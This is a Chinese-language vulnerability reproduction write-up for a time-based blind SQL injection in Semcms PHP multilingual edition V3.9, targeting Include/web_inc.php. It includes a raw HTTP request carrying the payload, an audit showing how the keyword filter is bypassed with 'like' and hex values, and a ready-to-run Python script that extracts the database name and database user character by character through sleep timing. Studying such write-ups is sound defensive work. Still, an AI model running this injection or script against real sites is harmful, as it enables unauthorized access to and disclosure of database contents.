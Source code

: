 Semcms PHP(多语)版 V3.9 sql注入漏洞
===================================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms PHP(多语)版 V3.9

三、复现过程
------------

### 漏洞详情

漏洞文件为Include下的web\_inc.php文件

包

    POST /Include/web_inc.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Upgrade-Insecure-Requests: 1
    Content-Length: 64
    Content-Type: application/x-www-form-urlencoded

    languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);

基于时间的注入

### 代码审计

查看web\_inc.php的关键代码

    if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

    if(!empty($Language)){

          //网站SEO设定

          $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
          $row=mysqli_fetch_array($query);
          $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
          $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
          $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

    ......

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

    function test_input($data) { 
          $data = str_replace("%", "percent", $data);
          $data = trim($data);
          $data = stripslashes($data);
          $data = htmlspecialchars($data,ENT_QUOTES);
          return $data;

       }
    function inject_check_sql($sql_str) {

         return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
    } 

    function verify_str($str) { 

       if(inject_check_sql($str)) {

           exit('Sorry,You do this is wrong! (.-.)');
        } 

        return $str; 
    }

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

    languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);

附上脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory

    import requests

    def getDatabase(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,9):
            for j in range(97,122):
                data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j)
                    print(s)
                    break
        print('database=' + s)


    def getUser(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,21):
            for j in range(64,90):
                data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j).lower()
                    print(s)
                    break
        print('user=' + s)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/Include/web_inc.php'

        s = getDatabase(url)
        u = getUser(url)

运行截图

![](./resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId26.png)

![](./resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId27.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接
--------

> <https://xz.aliyun.com/t/7122>
